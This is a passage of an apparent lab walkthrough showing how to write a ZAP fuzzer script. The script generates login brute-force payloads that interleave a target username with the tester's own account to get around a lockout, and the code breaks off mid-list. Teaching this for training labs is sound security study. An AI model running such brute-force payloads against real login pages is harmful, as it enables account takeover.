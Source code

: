 Depending on the version of ZAP you have installed, you may have either the Nashorn and Graal.js JavaScript engines available, or just Graal.js. Any engine you have available works. However, our script is written for Graal.js. So if you’re using Nashorn or another JavaScript engine, you might need to modify the script. See [Migration Guide from Nashorn to GraalJS](https://www.graalvm.org/latest/reference-manual/js/NashornMigrationGuide/) for more details.

Finally, check the *Enabled* checkbox. You can leave everything else as-is.

#### Step 2: Generate the Payload Sets

Once you’ve saved your options and created a new script, navigate to the *Script Console* to view the new file. Clear it and enter the following code. You can read the wordlists from a file, but the sample below reads them from array literals:

```js
// Auxiliary variables/constants for payload generation
var count = 0;
var MID = "&password=";

var usernames = [
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
    "carlos",
    "carlos",
    "wiener",
```